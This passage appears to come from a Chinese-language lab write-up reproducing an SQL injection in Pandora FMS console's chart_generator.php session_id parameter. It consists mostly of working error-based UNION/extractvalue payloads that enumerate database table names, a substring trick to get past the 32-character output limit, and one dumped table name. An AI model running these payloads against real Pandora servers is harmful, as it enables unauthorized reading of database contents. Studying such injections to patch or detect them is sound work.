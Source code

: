 ```http
##表名
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
```



![image-20250403175011395](Pandora/image-20250403175011395.png)

```
tvisual_console_elements_cac
```

```http
##默认只能返回 32 个字符，使用 substring 解决这个问题，返回第 25 个字符再往后显示 30 个字符
http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1' UNION SELECT 1,extractvalue(1,concat(0x7e,(select substring(group_concat(table_name),1,30) from information_schema.tables where table_schema=database()))),3 --+
```
